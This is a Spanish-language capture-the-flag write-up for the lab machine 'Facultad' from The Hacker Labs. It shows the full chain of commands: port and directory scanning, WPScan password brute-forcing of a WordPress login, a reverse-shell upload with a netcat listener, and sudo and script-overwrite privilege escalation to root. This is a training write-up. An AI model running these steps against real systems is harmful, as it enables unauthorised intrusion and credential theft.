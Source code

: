 ```yaml
---
description: >-
  ✍️ Autor: beafn28🔍 Dificultad: Fácil📅 Fecha de creación: 30/1/2025 🖥️The
  Hacker Labs
hidden: true
---
```


# Facultad

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.61
```

para verificar la conectividad de red.

<figure><img src="../.gitbook/assets/image (1034).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 192.168.1.61
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 192.168.1.61
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../.gitbook/assets/image (1036).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web sea como el Studium de una asignatura en este caso se llama Administración de Sistemas.

<figure><img src="../.gitbook/assets/image (1037).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://192.168.1.61/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

<figure><img src="../.gitbook/assets/image (1038).png" alt=""><figcaption></figcaption></figure>

Vamos a ver el contenido del directorio`/images`.

<figure><img src="../.gitbook/assets/image (1039).png" alt=""><figcaption></figcaption></figure>

Nos la descargamos para realizar la técnica de esteganografía.

<figure><img src="../.gitbook/assets/image (1040).png" alt=""><figcaption></figcaption></figure>

Vemos el contenido del archivo. Descubrimos dos posibles usuarios.

<figure><img src="../.gitbook/assets/image (1041).png" alt=""><figcaption></figcaption></figure>

Vamos a ver el contenido del directorio`/education`.&#x20;

<figure><img src="../.gitbook/assets/image (1042).png" alt=""><figcaption></figcaption></figure>

Como podemos comprobar es un WordPress por lo que añadimos el dominio **facultad.thl** a **/etc/hosts**.

<figure><img src="../.gitbook/assets/image (1043).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Al tener el directorio wp-admin sabemos que es un panel de login pero no tenemos las credenciales por lo que con **WPScan** enumeramos el usuario.

```bash
wpscan --url http://192.168.1.61/education/ --enumerate u,vp
```

<figure><img src="../.gitbook/assets/image (1044).png" alt=""><figcaption></figcaption></figure>

Sabiendo el usuario tenemos que conseguir la contraseña.

```bash
wpscan --url http://192.168.1.61/education/ --passwords /usr/share/wordlists/rockyou.txt --usernames facultad
```

<figure><img src="../.gitbook/assets/image (1045).png" alt=""><figcaption></figcaption></figure>

Ingresamos las credenciales en el panel de **login**.

<figure><img src="../.gitbook/assets/image (1046).png" alt=""><figcaption></figcaption></figure>

Vemos que hay un apartado para subir archivos por lo que adjuntamos una [ReverseShell](https://www.revshells.com/).

<figure><img src="../.gitbook/assets/image (1047).png" alt=""><figcaption></figcaption></figure>

Nos ponemos en escucha.

```bash
nc -nlvp 443
```

<figure><img src="../.gitbook/assets/image (1048).png" alt=""><figcaption></figcaption></figure>

Hacemos el [tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/) para trabajar más cómodos.

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../.gitbook/assets/image (1049).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://gtfobins.github.io/gtfobins/php/" %}

```bash
sudo -u gabri php -r "system('/bin/bash');"
```

Como comprobamos en el mensaje la contraseña de Vivian está en el mail de Gabri.

<figure><img src="../.gitbook/assets/image (1050).png" alt=""><figcaption></figcaption></figure>

Mostramos el contenido que es la contraseña codificada en **Brainfuck** por lo que la decodificamos.

<figure><img src="../.gitbook/assets/image (1051).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (1052).png" alt=""><figcaption></figcaption></figure>

Iniciamos sesión con las credenciales.

<figure><img src="../.gitbook/assets/image (1053).png" alt=""><figcaption></figcaption></figure>

Tenemos permisos de **root** para ejecutar un script.

<figure><img src="../.gitbook/assets/image (1054).png" alt=""><figcaption></figcaption></figure>

Vemos el contenido y así podemos modificarlo para escalar privilegios. Nos damos cuenta que el script se ejecuta cada minuto en el **/etc/crontab**.

<figure><img src="../.gitbook/assets/image (1055).png" alt=""><figcaption></figcaption></figure>

```bash
#!/bin/bash
bash
```

Ejecutamos.

```
sudo /opt/vivian/script.sh
```

<figure><img src="../.gitbook/assets/image (1056).png" alt=""><figcaption></figcaption></figure>

Ya somos **root** por lo que ahora encontraremos la bandera en sus directorios.

Te deseo mucho éxito en tu búsqueda de las flags! Recuerda prestar atención a cada detalle, examinar los archivos y servicios con detenimiento, y utilizar todas las herramientas disponibles para encontrarlas. La clave para el éxito está en la perseverancia y en no dejar ningún rincón sin explorar. ¡Adelante, hacker! 💻🔍🚀
